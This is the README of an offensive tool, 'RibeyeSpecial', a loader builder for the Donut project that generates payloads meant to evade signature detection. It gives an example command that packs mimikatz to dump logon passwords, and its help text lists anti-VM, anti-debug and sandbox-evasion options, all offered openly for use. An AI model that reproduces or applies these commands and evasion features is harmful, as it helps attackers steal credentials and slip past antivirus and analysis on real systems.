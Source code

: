 # RibeyeSpecial - STILL IN PROGRESS, DO NOT USE! I REPEAT - DO NOT USE
medium-rare
## Purpose
To be a builder that can generate undetected payload on the fly with codes that can be modified to avoid signature detection. Comes with a ton of features that is meant solely to make the blue team life harder as well as make reverse life miserable. 

A loader builder for TheWover's Donut Project. Will support all sort of stuff and have more features as time goes on!
https://twitter.com/specialhoang

https://twitter.com/tomahawkapt69 (At least I remember to clout the group unlike a certain coconut https://twitter.com/nixbyte/status/1189288814465998848)

## Install
1. Download latest https://github.com/apt69/RibeyeSpecial/releases
2. Make sure RibeyeSpecial.exe, RibeyeBone64.exe, and RibeyeBone32.exe are in the same folder

## Usage
### Example
```
C:\Users\APT69\Desktop>RibeyeSpecial.exe -f mimikatz.exe -o test.exe -p -s -t 6000 -g "sekurlsa::logonpasswords"
```
```
C:\Users\APT69\Desktop>RibeyeSpecial.exe -h

USAGE:

   RibeyeSpecial.exe  [-c] [-r] [-d] [-a] [-m] [-p] [-s] [-v] [-e] [-g
                      <string>] [-t <integer>] -o <string> -f <string> [--]
                      [--version] [-h]


Where:

   -c,  --core
     Check CPU core count, anti VM

   -r,  --ram
     Check RAM size, anti VM

   -d,  --debugger
     Check if we are being debugged, anti debug

   -a,  --accel
     Check if sleep is being accelerated, evade sandbox

   -m,  --mouse
     Check mouse movement, evade sandbox

   -p,  --prime
     Prime calculation to evade sandbox

   -s,  --sleep
     Sleep to evade sandbox

   -v,  --vm
     Detect VM using CPUID

   -e,  --all
     Enable all checks with default values

   -g <string>,  --param <string>
     Parameter to pass to payload

   -t <integer>,  --sleeptime <integer>
     How long to sleep for (in ms) if -s is enabled

   -o <string>,  --output <string>
     (required)  Output file name

   -f <string>,  --file <string>
     (required)  Path to file to execute

   --,  --ignore_rest
     Ignores the rest of the labeled arguments following this flag.

   --version
     Displays version information and exits.

   -h,  --help
     Displays usage information and exits.


   Shoutout to APT69 and the brothers that are in it.
   https://twitter.com/TomahawkApt69
```
